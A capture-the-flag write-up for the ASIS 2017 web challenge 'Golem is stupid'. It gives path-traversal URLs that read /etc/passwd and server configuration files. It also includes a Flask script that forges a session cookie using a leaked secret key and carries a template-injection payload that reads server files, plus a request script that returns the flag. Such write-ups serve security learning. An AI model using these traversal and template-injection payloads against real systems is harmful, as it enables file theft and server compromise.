 # ASIS-FINALS-2017
Task name : Golem is stupid <br>
Category : Web <br>

Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

tldr ; SSTI to get RCE in flask session token <br>

Challenge : <br>
first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token with payload, and send it to the application<br><br>

Payload : <br>

from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)```

```
<br>
and the exploit : <br>

```
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text

```
<br>
Response contained flag : ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}
